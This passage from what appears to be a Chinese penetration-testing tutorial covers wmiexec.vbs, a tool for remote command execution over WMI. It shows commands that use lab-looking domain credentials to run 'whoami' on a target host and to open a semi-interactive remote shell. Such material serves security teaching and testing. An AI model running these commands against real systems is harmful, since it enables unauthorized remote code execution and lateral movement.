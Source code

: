 #### 4.2.2.3 wmiexec.vbs

wmiexec.vbs 是为了解决 wmic 无法回显命令而开发的一个工具，原理就是把数据先存 到一个临时文件中，在每次读取完执行结果后就自动删除。可以用来回显执行命令的结果和 获取半交互式的 shell

![](images/yushentou/15899744761893.png)


```bash
cscript wmiexec.vbs /cmd 192.168.19.178 adtest\jeff1 test@123 whoami

```

![](images/yushentou/15899744875016.png)


```bash
cscript wmiexec.vbs /shell 192.168.19.178 adtest\jeff1 test@123

```

![](images/yushentou/15899744970291.png)


